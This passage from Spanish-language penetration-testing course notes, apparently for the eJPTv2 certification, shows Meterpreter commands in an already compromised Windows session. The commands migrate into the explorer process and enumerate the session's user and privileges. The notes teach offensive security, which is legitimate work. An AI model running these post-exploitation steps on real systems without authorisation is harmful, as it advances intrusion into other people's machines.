 ```bash
meterpreter > sysinfo # Información del sistema
meterpreter > pgrep explorer # Exploración de procesos (Devuelve PID explorer)
meterpreter > migrate <PID_explorer>
meterpreter > sysinfo # Ahora la sesión meterpreter es 32bits (x64)
meterpreter > getuid # Vemos con que usuario estamos conectados.
```

![image.png](Curso%20EJPTv2%20194403fef4da80df82fada01929fa777/image%2082.png)

El usuario con el que estamos conectados no es administrador, aunque se llame admin. Con el siguiente comando podemos comprobar los permisos de este usuario:

```bash
meterpreter > getprivs
```

![image.png](Curso%20EJPTv2%20194403fef4da80df82fada01929fa777/image%2083.png)
